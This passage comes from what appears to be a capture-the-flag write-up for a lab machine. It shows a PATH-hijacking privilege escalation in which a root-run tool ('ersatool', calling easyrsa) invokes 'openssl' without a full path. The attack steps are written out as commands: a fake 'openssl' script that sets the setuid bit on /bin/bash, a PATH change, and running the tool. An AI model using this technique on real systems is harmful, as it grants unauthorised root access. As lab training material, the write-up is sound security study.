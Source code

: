 By running the ```pspy```  we found that ```openssl``` was called without giving the full path, Meaning we can change the ```PATH``` to point it to our ```openssl```:
```console
...
2021/06/25 02:46:03 CMD: UID=33   PID=1959   | /usr/bin/ersatool
2021/06/25 02:46:35 CMD: UID=0    PID=1961   | sh -c /opt/easyrsa/easyrsa build-client-full a nopass batch
2021/06/25 02:46:35 CMD: UID=0    PID=1960   | /usr/bin/ersatool
2021/06/25 02:46:35 CMD: UID=0    PID=1962   | /bin/sh /opt/easyrsa/easyrsa build-client-full a nopass batch
2021/06/25 02:46:35 CMD: UID=0    PID=1963   | sed -e s`ENV::EASYRSA`EASYRSA`g -e s`$dir`/opt/easyrsa/pki`g -e s`$EASYRSA_PKI`/opt/easyrsa/pki`g -e s`$EASYRSA_CERT_EXPIRE`36500`g -e s`$EASYRSA_CRL_DAYS`180`g -e s`$EASYRSA_DIGEST`sha256`g -e s`$EASYRSA_KEY_SIZE`2048`g -e s`$EASYRSA_DIGEST`sha256`g -e s`$EASYRSA_DN`cn_only`g -e s`$EASYRSA_REQ_COUNTRY`US`g -e s`$EASYRSA_REQ_PROVINCE`California`g -e s`$EASYRSA_REQ_CITY`San Francisco`g -e s`$EASYRSA_REQ_ORG`Copyleft Certificate Co`g -e s`$EASYRSA_REQ_OU`My Organizational Unit`g -e s`$EASYRSA_REQ_CN`ChangeMe`g -e s`$EASYRSA_REQ_EMAIL`me@example.net`g /opt/easyrsa/pki/openssl-easyrsa.cnf
2021/06/25 02:46:35 CMD: UID=0    PID=1964   | /bin/sh /opt/easyrsa/easyrsa build-client-full a nopass batch
2021/06/25 02:46:35 CMD: UID=0    PID=1965   | openssl version
...
```

So let's create our ```opensssl``` on ```/tmp/exp```:
```console
www-data@pki:/tmp/exp$ cat openssl
cat openssl
#!/bin/bash
chmod u+s /bin/bash
```

Now, Let's append this path to ```PATH```:
```console
www-data@pki:/tmp/pwn$ export PATH=/tmp/exp:$PATH
```

Next, Let's run ```ersatool``` to make a call our ```openssl``` as root:
```console
www-data@pki:/tmp/pwn$ ersatool
ersatool
# create
create
create->CN=a
a
client
dev tun9
proto udp
remote vpn.static.htb 1194
resolv-retry infinite
nobind
user nobody
group nogroup
persist-key
persist-tun
...
create->CN=

# exit
exit
```
